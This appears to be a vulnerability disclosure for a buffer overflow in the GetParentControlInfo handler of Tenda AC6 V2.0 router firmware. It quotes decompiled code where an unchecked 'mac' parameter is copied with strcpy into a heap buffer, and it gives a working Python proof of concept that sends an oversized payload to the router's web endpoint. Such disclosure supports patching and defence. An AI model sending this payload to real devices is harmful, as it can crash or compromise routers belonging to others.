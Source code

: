 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "GetParentControlInfo"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `GetParentControlInfo` function, the user-supplied MAC address is obtained via `websGetVar`. However, this input is not validated, and it's directly copied into `pc_info->mac_addr` using `strcpy`. The allocated space for `pc_info` via `malloc` is only `0x254` bytes. Consequently, this leads to a **buffer overflow**.

```c
mac_addr = websGetVar(wp, "mac", byte_519A28);//get mac value
pc_info = (parent_control_info *)malloc(0x254u);
memset(pc_info, 0, sizeof(parent_control_info));
strcpy((char *)pc_info->mac_addr, mac_addr);//overflow
```

![image-20250614161657528](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614161657528.png)

poc

```python
import requests
def send_payload(url, payload):
    params={'mac':payload}
    response = requests.get(url, params=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2048+b"\xef\xbe\xad\xde"
url="http://192.168.1.1/goform/GetParentControlInfo"
send_payload(url, payload)   
```

![image-20250614171717338](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614171717338.png)

